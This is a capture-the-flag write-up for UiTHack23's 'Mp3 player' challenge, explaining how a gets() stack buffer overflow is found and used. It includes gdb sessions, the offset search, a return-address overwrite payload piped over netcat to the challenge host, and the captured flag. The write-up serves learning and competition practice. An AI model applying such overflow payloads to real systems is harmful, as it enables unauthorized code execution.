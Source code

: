 # Mp3 player

We found an old mp3 player laying around and decided to connect it to the internet for everyone to listen to its good ol' hits.
However, we might have messed up some of the instructions when setting it up...

You can connect to the Mp3 player with netcat

$ nc motherload.td.org.uit.no 8006

# Writeup

Quick reading of source seems to allow me to get lyrics of the songs i write the name of. `call_me_maybe` is the song I need to play but it is not in the list of available songs to play.

Quickly saw the "gets" which is deprecated in any way shape and form. Not to be used and also heavily used in CTF. This has no limit on how much input it reads. So even though there is only 30 characters given in the buffer if we write more it will pollute the stack.

So I start up: `gdb mp3_player`. Running the info functions command shows me that call me maybe is at `0x000000000040140f`

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x00000000004010e0  putchar@plt
0x00000000004010f0  _exit@plt
0x0000000000401100  puts@plt
0x0000000000401110  fclose@plt
0x0000000000401120  fgetc@plt
0x0000000000401130  alarm@plt
0x0000000000401140  strcmp@plt
0x0000000000401150  signal@plt
0x0000000000401160  gets@plt
0x0000000000401170  setvbuf@plt
0x0000000000401180  fopen@plt
0x0000000000401190  _start
0x00000000004011c0  _dl_relocate_static_pie
0x00000000004011d0  deregister_tm_clones
0x0000000000401200  register_tm_clones
0x0000000000401240  __do_global_dtors_aux
0x0000000000401270  frame_dummy
0x0000000000401276  ignore_me
0x00000000004012db  timeout
0x0000000000401309  ignore_me_timeout
0x000000000040132f  menu
0x000000000040135e  photograph
0x0000000000401399  lose_yourself
0x00000000004013d4  mamma_mia
0x000000000040140f  call_me_maybe
0x0000000000401472  play_song
0x00000000004014fa  main
0x0000000000401550  __libc_csu_init
0x00000000004015c0  __libc_csu_fini
0x00000000004015c8  _fini
```

I was a bit blind but after watching [Running a Buffer Overflow Attach - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo) it became clear to me. I can change the return address in the stack. The return address is where the program should continue executing from after a function call has been run. So basically we can tell it where to go after it has executed `play_song()`.

After a bit of testing I managed to figure out what number I had to use to overwrite that return address. I knew it was over 30 as the buffer was 30. 

```
(gdb) run  < <(python -c 'print("A"*41)')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/toffe/Projects/uithack/mp3_player/mp3_player < <(python -c 'print("A"*41)')

[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to my online MP3 Player!

Please choose the name of the song you want to play:

- Photograph - Nickelback
- Lose Yourself - Eminem
- Mamma Mia - ABBA
Could not play the requested song

Program received signal SIGSEGV, Segmentation fault.
0x00007ffff7df0041 in ?? () from /lib/x86_64-linux-gnu/libc.so.6
```

As it seems the magic number is 40. Everything after 40 is polluting the return address. As you see on the end of the return address it is now `0x00007ffff7df0041`, that last `41` is the hex for an uppercase A. So I just added manually letters.

```
(gdb) run  < <(python -c 'print("A"*40 + "ABCDEF")')
....
Program received signal SIGSEGV, Segmentation fault.
0x0000464544434241 in ?? ()
```

When I added another character now it seems to be something else happening. So the magic number is 6 letters to change the return address.

So by doing `run  < <(python -c 'print("A"*40 + "\x00\x00\x00\x00\x00\x00")')` I managed to set the return address to `0x0000000000000000`. Lets modify it to start at call me maybe: `0x000000000040140f`. As it is added backwards we need to add the digits backwards aswell. So the payload is:

```
(gdb) run  < <(python -c 'print("A"*40 + "\x0f\x14\x40\x00\x00\x00")')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/toffe/Projects/uithack/mp3_player/mp3_player < <(python -c 'print("A"*40 + "\x0f\x14\x40\x00\x00\x00")')
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Welcome to my online MP3 Player!

Please choose the name of the song you want to play:

- Photograph - Nickelback
- Lose Yourself - Eminem
- Mamma Mia - ABBA
Could not play the requested song
MY TEST FLAG
Program received signal SIGSEGV, Segmentation fault.
0x00007fffffffdef0 in ?? ()
```

There we managed to read my test flag. Now we have a payload to send:

```
└─$ python -c 'print("A"*40 + "\x0f\x14\x40\x00\x00")' | nc motherload.td.org.uit.no 8006Welcome to my online MP3 Player!

Please choose the name of the song you want to play:

- Photograph - Nickelback
- Lose Yourself - Eminem
- Mamma Mia - ABBA
Could not play the requested song
UiTHack23{H3r35_MY_4dDr355_50_caLL_M3_may83}
```

The flag is secured!